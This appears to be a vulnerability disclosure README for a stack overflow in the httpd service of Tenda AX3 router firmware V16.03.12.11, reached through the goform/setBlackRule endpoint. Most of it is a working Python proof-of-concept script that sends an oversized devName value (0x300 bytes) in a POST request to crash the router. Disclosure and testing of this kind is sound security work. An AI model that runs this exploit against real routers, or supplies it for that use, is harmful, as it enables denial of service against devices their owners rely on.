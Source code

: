 # Tenda AX3 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V16.03.12.11

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `set_device_name` function, which can be accessed via the URL `setBlackRule`

![1](./1.jpg)



When we send packets, the router will be dos

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-


import sys
import time
import string
import socket
from random import Random
import urllib, urllib2, httplib
from pwn import *

 
class HTTP:
    HTTP = 'http'
 
    def __init__(self, host, proto=HTTP, verbose=False):
        self.host = host
        self.proto = proto
        self.verbose = verbose
        self.encode_params = True
 
    def Encode(self, data):
        
        if type(data) == dict:
            pdata = []
            for k in data.keys():
                pdata.append(k + '=' + data[k])
            data = pdata[1] + '&' + pdata[0]
        else:
            data = urllib.quote_plus(data)
        return data
 
    def Send(self, uri, headers={}, data=None, response=False,encode_params=True):
        html = ""
        if uri.startswith('/'):
            c = ''
        else:
            c = '/'
 
        url = '%s://%s' % (self.proto, self.host)
        uri = '/%s' % uri
        if data is not None:
            data = self.Encode(data)

        if self.verbose:
            print url
        httpcli = httplib.HTTPConnection(self.host, 80, timeout=30)
        httpcli.request('POST',uri,data,headers=headers)
        print uri
        response=httpcli.getresponse()
        print response.status
        print response.read()
 
if __name__ == '__main__':
    #Fireitup
    payload='a'*0x300
    ip = '127.0.0.1'  
    # 构造http数据包
    s='1'
    pdata = {

        'mac'  :   'bbbbbbbbbbb' ,
        'devName'  :   payload 
        }

    header = {
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)',
        'cookie'        : 'admin'
        }
    # 发起http请求
    try:
        aa=HTTP(ip).Send('goform/setBlackRule', data=pdata,headers=header,encode_params=False,response=True)
       
        print aa
        print '[+] execute ok'
    except httplib.BadStatusLine:
        print "Payload deliverd."
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)



```

![poc](./poc.jpg)

![poc1](./poc1.jpg)


